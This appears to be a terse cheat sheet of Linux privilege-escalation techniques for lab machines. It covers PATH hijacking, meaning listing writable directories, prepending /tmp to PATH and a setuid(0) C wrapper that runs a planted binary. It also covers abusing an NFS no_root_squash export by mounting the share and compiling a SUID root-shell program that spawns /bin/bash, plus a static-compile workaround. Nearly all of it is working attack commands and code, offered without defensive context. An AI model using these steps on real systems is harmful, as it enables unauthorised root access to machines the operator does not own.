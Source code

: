 remember to chmod +x

### PATH

PATH
```shell
echo $PATH
```

Find writeable
```shell
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```

```shell
find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
```

```shell
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

Add /tmp to PATH
```shell
export PATH=/tmp:$PATH
```

Bash
```bash
#include<unistd.h>
void main ()
{ setuid(0);
  setgid(0);
  system("thm");
}
```

### NFS

NFS config file
```shell
cat /etc/exports
```

mount to no_root_squash
```shell
sudo mount -o rw 10.10.10.10:/home/backup /tmp/backupattacker
```

SUID bits
```bash
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

fix ./code: /lib/x86_64-linux-gnu/libc.so.6: version GLIBC_2.34 not found (required by ./code)
```shell
sudo gcc -static code.c -o code -w
```


